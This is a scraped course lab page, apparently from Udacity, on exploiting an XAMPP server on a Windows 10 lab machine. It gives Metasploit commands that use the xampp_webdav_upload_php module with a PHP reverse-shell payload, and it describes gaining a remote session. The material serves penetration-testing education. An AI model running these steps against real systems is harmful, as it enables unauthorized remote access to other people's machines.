 <h1 class="chakra-heading css-iuea7g">Exploiting with XAMPP</h1></div><div class="css-0"><div class="css-1m96lhp"><div class="css-u8svcc"><div class="copy-length css-0"><div class="ureact-markdown css-tc5hjw"><h2 class="chakra-heading css-lb1dt4">IMPORTANT: READ ME!</h2>
<p class="chakra-text css-o3oz8b">Prior to exploiting Xampp, you will first need to ensure the service is running on the win10 machine. You can do so by completing the following steps:</p></div></div></div></div><div class="css-1m96lhp"><div class="css-u8svcc"><div role="group" aria-labelledby="description" class="css-1do9afp"><div class="css-k008qs"></div></label></div></div><div class="chakra-stack css-1ac1sc7"><label class="chakra-checkbox css-lcxgrr"><input class="chakra-checkbox__input" type="checkbox" id="15901363--0" value="" style="border: 0px; clip: rect(0px, 0px, 0px, 0px); height: 1px; width: 1px; margin: -1px; padding: 0px; overflow: hidden; white-space: nowrap; position: absolute; --darkreader-inline-border-top: initial; --darkreader-inline-border-right: initial; --darkreader-inline-border-bottom: initial; --darkreader-inline-border-left: initial;" data-darkreader-inline-border-top="" data-darkreader-inline-border-right="" data-darkreader-inline-border-bottom="" data-darkreader-inline-border-left=""><span class="chakra-checkbox__control css-1cbh079" aria-hidden="true"></span><span class="chakra-checkbox__label css-1sgc0qu"><div class="ureact-markdown css-tc5hjw"><p class="chakra-text css-o3oz8b">RDP into the Win-10 Machine</p></div></span></label><label class="chakra-checkbox css-lcxgrr"><input class="chakra-checkbox__input" type="checkbox" id="15901363--1" value="" style="border: 0px; clip: rect(0px, 0px, 0px, 0px); height: 1px; width: 1px; margin: -1px; padding: 0px; overflow: hidden; white-space: nowrap; position: absolute; --darkreader-inline-border-top: initial; --darkreader-inline-border-right: initial; --darkreader-inline-border-bottom: initial; --darkreader-inline-border-left: initial;" data-darkreader-inline-border-top="" data-darkreader-inline-border-right="" data-darkreader-inline-border-bottom="" data-darkreader-inline-border-left=""><span class="chakra-checkbox__control css-1cbh079" aria-hidden="true"></span><span class="chakra-checkbox__label css-1sgc0qu"><div class="ureact-markdown css-tc5hjw"><p class="chakra-text css-o3oz8b">Open the Xampp Control Panel. The application icon is on the desktop</p></div></span></label><label class="chakra-checkbox css-lcxgrr"><input class="chakra-checkbox__input" type="checkbox" id="15901363--2" value="" style="border: 0px; clip: rect(0px, 0px, 0px, 0px); height: 1px; width: 1px; margin: -1px; padding: 0px; overflow: hidden; white-space: nowrap; position: absolute; --darkreader-inline-border-top: initial; --darkreader-inline-border-right: initial; --darkreader-inline-border-bottom: initial; --darkreader-inline-border-left: initial;" data-darkreader-inline-border-top="" data-darkreader-inline-border-right="" data-darkreader-inline-border-bottom="" data-darkreader-inline-border-left=""><span class="chakra-checkbox__control css-1cbh079" aria-hidden="true"></span><span class="chakra-checkbox__label css-1sgc0qu"><div class="ureact-markdown css-tc5hjw"><p class="chakra-text css-o3oz8b">Start all Services (see screenshot below)</p></div></span></label></div></div></div></div><div class="css-1m96lhp"><div class="css-u8svcc"><section><div class="css-1l4w6pd"><img alt="screenshot of Start Xampp services" src="https://video.udacity-data.com/topher/2021/March/605b9cbb_image-1/image-1.png" class="chakra-image css-1f7bxqq"></div><div class="css-1mnskd6"><div class="ureact-markdown css-tc5hjw"><p class="chakra-text css-o3oz8b">Start Xampp services</p></div></div></section></div></div><div class="css-1m96lhp"><div class="css-u8svcc"><div class="copy-length css-0"><div class="ureact-markdown css-tc5hjw"><h2 class="chakra-heading css-lb1dt4">Steps involved with exploiting Xampp:</h2>
<ol role="list" class="css-13a5a39"><li class="css-cvpopp">Run Metasploit Framework
<ul role="list" class="css-19qh3zo"><li class="css-cvpopp">msfconsole</li></ul>
</li><li class="css-cvpopp">Go into the xampp exploit mode
<ul role="list" class="css-19qh3zo"><li class="css-cvpopp">use windows/http/xampp_webdav_upload_php</li></ul>
</li><li class="css-cvpopp">Set a different payload because the default payload may not work
<ul role="list" class="css-19qh3zo"><li class="css-cvpopp">set payload payload/reverse_php</li></ul>
</li><li class="css-cvpopp">Set lhost, lport and rhosts</li><li class="css-cvpopp">Run</li></ol></div></div></div></div><div class="css-1m96lhp"><div class="css-u8svcc"><div class="copy-length css-0"><div class="ureact-markdown css-tc5hjw"><p class="chakra-text css-o3oz8b">Observe, Below you can see the reverse TCP handler started and the payload is uploaded and executed. Note, the last command output indicates a session (session 1) has started.</p></div></div></div></div><div class="css-1m96lhp"><div class="css-u8svcc"><section><div class="css-1l4w6pd"><img alt="Output of running XAMPP" src="https://video.udacity-data.com/topher/2021/March/603da263_l3-xampp/l3-xampp.jpg" class="chakra-image css-17lam6q"></div><div class="css-1mnskd6"><div class="ureact-markdown css-tc5hjw"><p class="chakra-text css-o3oz8b">Running XAMPP</p></div></div></section></div></div><div class="css-1m96lhp"><div class="css-u8svcc"><div class="copy-length css-0"><div class="ureact-markdown css-tc5hjw"><p class="chakra-text css-o3oz8b">Below you can see that a remote session is active. When I typed <code class="chakra-code css-p3l7io">IPconfig</code>, the output shows the adapter configuration for my target device.</p></div></div></div></div><div class="css-1m96lhp"><div class="css-u8svcc"><section><div class="css-1l4w6pd"><img alt="Continued output of running XAMPP from previous screenshot" src="https://video.udacity-data.com/topher/2021/March/603da32a_l3-xampp2/l3-xampp2.png" class="chakra-image css-culn18"></div><div class="css-1mnskd6"><div class="ureact-markdown css-tc5hjw"><p class="chakra-text css-o3oz8b">Running XAMPP Continued</p></div></div></section></div></div></div>
